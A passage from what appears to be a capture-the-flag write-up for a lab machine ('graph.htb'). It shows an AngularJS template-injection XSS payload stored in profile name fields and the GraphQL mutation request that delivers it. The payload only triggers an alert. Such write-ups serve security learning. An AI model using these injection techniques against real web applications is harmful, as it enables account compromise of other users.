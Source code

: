 It seems to be the admin asking us to send a link to verify that we are a valid user from the organisation.

Another thing to note is that the field "First Name" and "Last Name" in the Profile page are vulnerable to XSS. We can update our first name to:
```JavaScript
{%{{{$on.constructor('alert("XSS")')()}}}%}
```
It wil trigger the XSS:
![](images/image05.png)

An interesthing this to note is the POST request sent to `/graphql` when we update the profile:
```json
{
    "operationName": "update",
    "variables": {
        "firstname": "{%{{{$on.constructor('alert(\"XSS\")')()}}}%}",
        "lastname": "null",
        "id": "62abdc0aa77046041da68167",
        "newusername": "caue"
    },
    "query": "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {\n  update(\n    newusername: $newusername\n    id: $id\n    firstname: $firstname\n    lastname: $lastname\n  ) {\n    username\n    email\n    id\n    firstname\n    lastname\n    __typename\n  }\n}"
}
```

We now know that the web app is using graphql and also the syntax needed to change the profile details.
Going to http://internal-api.graph.htb/graphql we have a code playground: